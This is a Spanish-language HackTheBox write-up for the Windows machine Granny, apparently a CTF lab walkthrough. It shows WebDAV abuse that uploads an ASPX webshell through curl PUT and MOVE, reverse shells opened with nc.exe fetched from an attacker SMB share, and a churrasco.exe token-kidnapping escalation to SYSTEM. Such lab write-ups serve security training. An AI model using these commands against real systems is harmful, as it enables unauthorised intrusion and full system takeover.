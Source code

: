 ```yaml
---
title: HackTheBox - Granny
author: cotes
date: 2023-09-14 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'ISS Misconfiguration', 'Token Kidnapping Local Privilege Escalation (churrasco.exe)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Granny/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Granny Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **ISS Misconfiguration, Token Kidnapping Local Privilege Escalation (churrasco.exe)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Granny/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Granny/02-versions.png)

* Como en el servidor se pueden usar múltiples métodos. Usaremos **davtest** para conocer que tipos de ficheros podemos subir

    ```bash
    ❯ davtest -url http://<IP Optimum>
    /usr/bin/davtest Summary:
    Created: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n
    PUT File: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.jsp
    PUT File: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.txt
    PUT File: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.jhtml
    PUT File: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.html
    PUT File: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.php
    PUT File: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.cfm
    PUT File: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.pl
    Executes: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.txt
    Executes: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.html
    ```

    >  No podemos subir ficheros **.asp** o **.aspx**, pero, podemos subir un fichero con extensión acepta y moverlo para tratar de cambiarle la extensión
    {: .prompt-info }

* Subimos un fichero test.txt, pero, su contenido será una webshell aspx

    ```bash
    ❯ cp /usr/share/webshells/aspx/cmdasp.aspx test.txt
    ❯ curl -s -X PUT http://<IP Optimum>/test.txt -d @test.txt
    ❯ curl -s -X MOVE -H "Destination:http://<IP Optimum>/test.aspx" http://<IP Optimum>/test.txt
    ```

c. Ahora, ya podemos ejecutar comandos

![](/assets/images/HTB/Easy/Granny/03-rce.png)

* Nos entablaremos una reverse shell

    ```bash
    ❯ ls
    ❯ nc.exe
    ❯ impacket-smbserver Share ./ -smb2support
    ```

    ![](/assets/images/HTB/Easy/Granny/04-reverse.png)

    ```bash
    ❯ nc -lvnp 443
    connect to [10.10.14.18] from (UNKNOWN) [10.10.10.15] 1038
    Microsoft Windows [Version 5.2.3790]
    (C) Copyright 1985-2003 Microsoft Corp.

    c:\windows\system32\inetsrv>
    ```

### Escalada de Privilegios 💹

a. Investigamos un exploit en base a la información de `systeminfo`

```cmd
c:\windows\system32\inetsrv>systeminfo                                                                                                                                                        
                                                                                                                                                                                              
Host Name:   GRANNY                                                                                                                                                             
OS Name:     Microsoft(R) Windows(R) Server 2003, Standard Edition
```

* El sistema es vulnerable a [Token Kidnapping (churrasco.exe)](https://github.com/jivoi/pentest/blob/master/exploit_win/churrasco)

b. Pasamos el exploit a la máquina víctima y ejecutamos un comando para testear

```bash
❯ impacket-smbserver Share ./ -smb2support
-------------------------------------------------------------
C:\Temp>copy \\10.10.14.18\Share\churrasco.exe churrasco.exe
C:\Temp>.\churrasco.exe -d "whoami"
<SNIP>
nt authority\system
```

c. Nos entablaremos una reverse shell para tener una consola interactiva. 

```bash
❯ ls
❯ nc.exe
❯ impacket-smbserver Share ./ -smb2support
-------------------------------------------------------------
C:\Temp>.\churrasco.exe -d "\\<tun0 IP>\Share\nc.exe -e cmd <tun0 IP> 4445"

# Nos ponemos en escucha con nc
❯ nc -lvnp 4445
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
nt authority\system
```